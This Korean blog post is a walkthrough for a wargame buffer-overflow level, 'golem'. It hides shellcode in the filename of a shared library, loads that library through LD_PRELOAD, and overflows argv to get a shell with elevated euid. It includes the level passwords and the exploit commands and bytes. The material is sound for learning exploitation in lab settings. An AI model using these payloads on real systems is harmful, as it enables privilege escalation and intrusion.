 ```yaml
---
layout: post
title: "[Wargame] 해커스쿨 BoF LEVEL11 (Skeleton -> Golem) : Stack Destroyer"
date: 2015-11-15 22:03:10
category: wargame
tags:  bof 
---
```


- id = skeleton
- pw = shellcoder

<!-- more -->

## 1. 문제 : golem.c

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - golem
        - stack destroyer
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // stack destroyer!
        memset(buffer, 0, 44);
        memset(buffer+48, 0, 0xbfffffff - (int)(buffer+48));
}
```

### 1.1 변경된 코드

으악… buffer[40] 뒤에 LR 이후부터 stack bottom까지 모두 0으로 clear 시킨다. 즉, shellcode 를 stack 에 올려놓고 실행을 할 수 없다는 것이다. 그렇다면… ROP (Return-Oriented Programming)이나 return-to-libc 기법으로 기존 코드를 재활용하여 shellcode 동작시켜야 할 것 같다.

```c
// stack destroyer!
        memset(buffer, 0, 44);
        memset(buffer+48, 0, 0xbfffffff - (int)(buffer+48));
```

## 2. 공격 방법 고민

물론 ROP도 가능하겠지만 이것은 아마도 맨 뒤에 나올 듯 하고, 이보다 쉽게 접근 가능한 방법이 바로 공유 라이브러리를 이용하는 것인가보다. 사실 이 방법은 잘 몰라서 힌트를 좀 봤다. :)

프로그램에서 stack 을 다 초기화시키고 있지만 공유라이브러리 사용을 부분에 지워지지 않는 부분이 있는 듯 하다. 파일을 shared library 로 compile 하여 사용하고, 이 파일 이름에 shellcode 를 올려 놓고, 여기 가르키도록 공격을 할 예정이다.

### 2.1 shared library compile 할 소스

사실 이번에 중요한 것은 공유라이브러리로 올리가는 object 의 파일 이름.

```c
void shell() {}
```

## 2.2 shared library compile

- fPIC : Position Indepedent Code
- shared : shared library

```bash
$ gcc shellcode.c -fPIC -shared -o `python -c 'print "\x90"*200 + "\x68\xf9\xbf\x0f\x40\x68\xe0\x91\x03\x40\xb8\xe0\x8a\x05\x40\x50\xc3"'`

>  file `python -c 'print "\x90"*200 + "\x68\xf9\xbf\x0f\x40\x68\xe0\x91\x03\x40\xb8\xe0\x8a\x05\x40\x50\xc3"'`  
hù¿@hà@¸à@PÃ: ELF 32-bit LSB shared object, Intel 80386, version 1, not stripped
```

## 2.3 LD_PRELOAD 에 등록

```
export LD_PRELOAD="./`python -c 'print "\x90"*200 + "\x68\xf9\xbf\x0f\x40\x68\xe0\x91\x03\x40\xb8\xe0\x8a\x05\x40\x50\xc3"'`"
```

## 2.4 디버깅

### 2.4.1 Stack bottom

마지막 ret 하기 이전 stack 상황. 모드 clear 된 상태.

![img](https://raw.githubusercontent.com/humb1ec0ding/humb1ec0ding-etc/master/2015/11/stage11-1.png)

### 2.4.2 LD_PRELOAD 내용은 어디에 ?

사실 LD_PRELOAD로 설정된 내용이 메모리 어디에 잡히는지 아직 잘 모르겠다. 현재 Stack 윗 메모리 중에 해당 내용이 잡혀 있긴 하다.

![img](https://raw.githubusercontent.com/humb1ec0ding/humb1ec0ding-etc/master/2015/11/stage11-3.png)

## 3. 공격

LR 값은 0xbffff770 으로 선택.

```bash
$ ./golem `python -c 'print "A"*44 + "\x70\xf7\xff\xbf"'`    

bash$ id
uid=510(skeleton) gid=510(skeleton) euid=511(golem) egid=511(golem) groups=510(skeleton)
```

## 4. 다음 단계 정보

```bash
bash$ id
uid=510(skeleton) gid=510(skeleton) euid=511(golem) egid=511(golem) groups=510(skeleton)

bash$ my-pass
euid = 511
cup of coffee
```

## 5. 의문점

#### LD_PRELOAD 관련 위치

ldd 로 확인해본 위치로는 0x40015000 에 잡혀있네요. 이번 문제에서는 LR이 0xbfff---- 을 사용해야 하므로 이 값은 쓸 수 없겠네요. Stack 위에도 이 값이 copy 되어 잡히게 되는 것인가요 ?

```
$ ldd /bin/ls
        ./hù¿@hà@¸à@PÃ => ./hù¿@hà@¸à@PÃ (0x40015000)
        libtermcap.so.2 => /lib/libtermcap.so.2 (0x4001a000)
        libc.so.6 => /lib/libc.so.6 (0x4001e000)
        /lib/ld-linux.so.2 => /lib/ld-linux.so.2 (0x40000000)
```

##### NOP 앞 부분 jump 시 fault

NOP 를 200 bytes 로 충분히 넣었는데, 앞부분으로 jump 하면 fault 가 발생하네요. Stack 위치 계산이 틀어져서 약간 오차가 있는 것이 잘 모르겠네요…

```
// Fault
>  ./golem `python -c 'print "A"*44 + "\x20\xf7\xff\xbf"'`  
Program received signal SIGSEGV, Segmentation fault.
0x40032942 in __libc_start_main (main=???, argc=???, argv=???, init=???,
    fini=???, rtld_fini=???, stack_end=???)
    at ../sysdeps/generic/libc-start.c:73
73      ../sysdeps/generic/libc-start.c: No such file or directory.  

// OK
>  ./golem `python -c 'print "A"*44 + "\x24\xf7\xff\xbf"'`
```





